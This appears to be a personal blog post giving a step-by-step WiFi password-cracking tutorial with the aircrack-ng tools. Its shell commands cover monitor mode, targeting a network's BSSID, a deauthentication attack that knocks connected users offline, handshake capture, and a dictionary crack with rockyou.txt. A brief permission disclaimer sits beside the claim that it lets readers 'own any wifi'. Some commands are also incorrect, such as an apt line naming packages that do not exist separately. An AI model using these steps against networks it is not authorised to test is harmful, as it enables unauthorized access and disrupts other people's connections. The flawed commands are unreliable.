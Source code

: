 ```yaml
---
title: 'Wifi Password cracking.'
date: 'July 8, 2022'
excerpt: 'This blog will help you to crack wifi password using airmon-ng.'
cover_image: '/images/posts/mac-with-coffee.jpg'
---
```


# Wifi Password Cracking with airmon-ng.

>This blog will help you to crack wifi password using airmon-ng.

>Disclaimer: Use this cracking method only if you own the wifi or you have permission to crack. Don't use it illegal.

>The following instruction will lead you to own any wifi (only if the password is available on wordlist).            
---
---
## Tools needed: 
* kali-linux
( I have covered how to <u>[install kali-linux](/blog/install-kali)</u> )
* airmon-ng
* airodump-ng
* aireplay-ng
* aircrack-ng

Commands for installing required packages :
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install airmon-ng airodump-ng aireplay-ng aircrack-ng
```

To kill all processes and wifi will also be disabled :
```bash
sudo airmon-ng check kill
```

To start wifi module :
```bash
sudo airmon-ng start wlan0 
```

 To start wifi into monitoring mode for capturing packets :
```bash
sudo airmon-ng start wlan0mon
```
This command is only for checking whether wifi is in monitoring mode wlan0mon :
```bash
iwconfig 
```
Shows the details of wifi networks available nearby :
```bash
sudo airodump-ng wlan0mon 
ctrl+c (stops capturing)
``` 
*copy the bssid and channel of wifi, which you want to get into.*

This command will show you one particular wifi network, you have to paste the channel no. and bssid of the particular wifi :
```bash
sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> 
```

The next instruction will help you to capture the 4-way handshake.
You have to specify any name in which the .cap captured flag will be saved
```bash
sudo airodump-ng wlan0mon -c <channel no.> --bssid <bssid> -w <name of the output file>
ctrl+c (stop capturing only after getting the 4-way handshake)
```

Now open another terminal (terminal 2) and run the following command for deauthenticating the devices connected to the wifi 
```bash
sudo aireplay-ng wlan0mon --deauth 0 -a <bssid> 
```
(this command will deauthenticate/disconnect the already connected devices to that wifi. So that we can get the 4-way handshake)

**now the 4-way handshake will be saved in terminal 1**

```bash
ctrl+c (stop capturing only after getting the 4-way handshake)
```

*the captured file will be saved as .cap file in you directory*

This command stops monitoring mode :
```bash
sudo airmon-ng stop wlan0mon 
```

Restart your wifi module :
```bash
sudo service NetworkManager start 
```

Start cracking your password :
*(you have to specify the name of your .cap file and full path to the wordlist)*
```bash
aircrack-ng <name of the .cap file> -w /usr/share/wordlists/rockyou.txt
```



>It will start cracking the password. This attack is known as bruteforce attack or dictionary attack.

>Password will be cracked only if the password is available on the wordlist you are specifying.

>Save your wifi by having a strong password.
